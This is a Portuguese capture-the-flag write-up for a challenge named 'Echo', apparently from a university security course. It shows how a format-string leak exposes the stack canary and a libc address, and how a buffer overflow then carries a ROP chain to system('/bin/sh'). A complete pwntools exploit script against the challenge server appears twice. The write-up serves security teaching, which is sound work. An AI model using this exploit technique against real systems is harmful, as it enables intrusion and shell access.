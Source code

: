# Echo

### Vulnerabilidade 

Primeiramente, notou-se que através da string pedida como nome input se podia descobrir informações importantes sobre o sistema, através de um ataque format string.

Numa segunda instância percebeu-se que se podia provocar um buffer overflowm visto o array da string de nome, de tamanho 20 bytes, estar a ser lida como se tivesse 100 bytes. 

Estas duas vulnerabilidades são a base do exploit.

Por fim, notou-se também que o programa tinha todas as proteções ativadas tornando vários tipos de ataques inviáveis ou consideravelmente mais difíceis de pôr em prática como ASLR e o caso de canários para dificultar buffer overflow, por exemplo.

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos, sendo útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Começando agora propriamente a tratar do exploit, para facilitar o teste do nosso ataque procurou-se desativar a **ASLR** (Address space layout randomization) localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.

Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...
![imagem.png](./ECHO1.png)

Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário, decidimos correr o programa duas vezes e verificar se o argumento mudava... (Isto só é possível pelo facto de termos desligado o ASLR.)

![imagem.png](./imagem.png)
![imagem-1.png](./imagem-1.png)

Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp, pelo que o o return address estará no 11º argumento.

Temos os argumentos 8 e 11:

![imagem-2.png](./imagem-2.png)
![imagem-3.png](./imagem-3.png)

Sabendo que esse argumento pertence a uma intrução da **__libc_start_main** procurou-se descobrir o offset desta para a base da libc:

![imagem-4.png](./imagem-4.png)

![imagem-5.png](./imagem-5.png)

Ao fazer o mesmo para o endereço de __libc_start_main + 245, desta vez dentro do gdb, apercebemo-nos que o offset entre as duas intruções é de - 71 (decimal), sendo este importante para que consigámos dar uso a uma biblioteca auxiliar.

**Nota:** A conta do offset varia conforme a biblioteca que se têm instalada

O endereço base será então:
> 0xf7debee5 - libc.symbols["__libc_start_main"] + 71

Assim sendo, até o seguinte python script:

```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora alterar o endereço de retorno da frame atual por uma função da nossa escolha.
Neste caso chamaremos a função **system()** com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata de todo este processo de **ROP** (Return Oriented Programming).

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita, porém, se somarmos um valor pequeno ao último byte do canário conseguimos ultrapassá-lo sem sermos detetados. Tal só acontece porque a deteção de integridade do canário só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo temos:
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Para repôr o estado do canário basta utilizar:

```python
r = message(p, b"." * 19)
```

Agora basta correr o programa e sair dele, usando a opção "q" para obter a flag:

![imagem-6.png](./imagem-6.png)

Aqui encontra-se o python script finalizado que foi utilizado para adquirir a flag:

```python

from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()

# Canário termina com /0 ?? No problemo
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())

# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)

r = message(p, b"." * 19)

p.interactive()


```







